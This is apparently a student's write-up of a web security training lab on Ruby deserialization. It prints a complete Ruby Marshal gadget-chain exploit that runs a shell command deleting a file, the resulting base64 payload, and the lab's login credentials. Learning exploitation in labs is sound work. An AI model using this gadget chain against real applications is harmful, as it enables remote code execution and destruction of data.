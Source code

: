 # know how deserialization ruby Lab 6: Exploiting Ruby deserialization using a documented gadget chain
```bash
## know how deserialization @access_token ruby
## know how @access_token deserialization ruby
```

This lab uses a serialization-based session mechanism and the Ruby on Rails framework. There are documented exploits that enable remote code execution via a gadget chain in this framework.

To solve the lab, find a documented exploit and adapt it to create a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter

![](assets/2023-01-06-11-17-10.png)

No we need search documentation for ruby . In this case found this.. 

```bash
Deserialization Gadget for Ruby 2.x-3
https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html
```

```ruby
## know how deserialization ruby script universal-deserialisation-gadget-for-ruby-2-x-3-x 
## know how poc ruby

# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
## change id to command to remove file
##rs.instance_variable_set('@git_set', "id")
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")


wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])

# puts encode payload to base64 and remove new lines and encode to url
## know how ruby encode base64 and url
puts Base64.urlsafe_encode64(payload).gsub("\n", "")

#puts payload.inspect
#puts Marshal.load(payload)

```

We are going to https://www.onlinegdb.com/ and change to ruby and paste the code.

![](assets/2023-01-06-11-29-58.png)

```bash
BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBpb286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVhZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRlYnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBzoMQHNvY2tldG86FEdlbTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBzsPbQtLZXJuZWw6D0BtZXRob2RfaWQ6C3N5c3RlbToNQGdpdF9zZXRJIh9ybSAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dAY7DFQ7EjoMcmVzb2x2ZQ==

```

![](assets/2023-01-06-11-35-45.png)
